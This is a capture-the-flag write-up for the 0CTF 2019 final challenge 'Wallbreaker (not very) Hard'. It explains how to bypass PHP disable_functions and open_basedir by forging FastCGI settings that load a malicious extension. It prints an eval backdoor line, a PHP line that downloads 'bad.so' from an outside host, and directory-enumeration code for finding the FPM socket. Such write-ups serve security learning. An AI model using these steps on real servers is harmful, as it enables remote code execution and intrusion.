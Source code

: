 # Wallbreaker (not very) Hard

## Problem

- This challenge environment is same as 0CTF 2019 qual - Wallbreaker Easy
    - PHP-FPM
    - PHP 7.2
    - strict `disable_functions`
        - `pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,putenv,proc_open,passthru,symlink,link,syslog,imap_open,dl,system,mb_send_mail,mail,error_log`
        - no `putenv` this time :p
    - `open_basedir: /var/www/html:/tmp`

![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker\ \(not very\)\ Hard/phpinfo.png)

- This challenge tells us there is a backdoor in somewhere
- After scanning, I found `.index.php.swp`
- backdoor key: `eval($_POST["anfkBJbfqkfqasd"]);`
- OK, it's time for bypass `disable_functions`和`open_basedir`

## Exploit

- In 0CTF qual, I forge fastcgi protocol to bypass `open_basedir` (overwrite the settings)
- But I found there is another way that is possible to bypass `disable_functions` to RCE
    - using the `extension`!
- So we just need to write the `extension_dir` and `extension` in `PHP_ADMIN_VALUE`, then we can load arbitrary extension
- First step is to upload a RCE extension:

```php
file_put_contents("/tmp/bad.so", file_get_contents("http://kaibro.tw/bad.so"));
```

- Before building the fastcgi payload, we should find out its UNIX Socket path (if it use tcp, we need to find the port)

```php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/php/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/php/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

=> `/var/run/php/U_wi11_nev3r_kn0w.sock`

- Then, starting to create FastCGI payload to overwrite settings. Here is the payload reference: [payload.php](https://github.com/w181496/FuckFastcgi/blob/master/index.php)
    - change the config, then run it


![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/getflag.png)

- RCE Get!
- `/readflag` => `flag{PHP-FPM is awesome and I think the best pratice is chroot your PHP}`

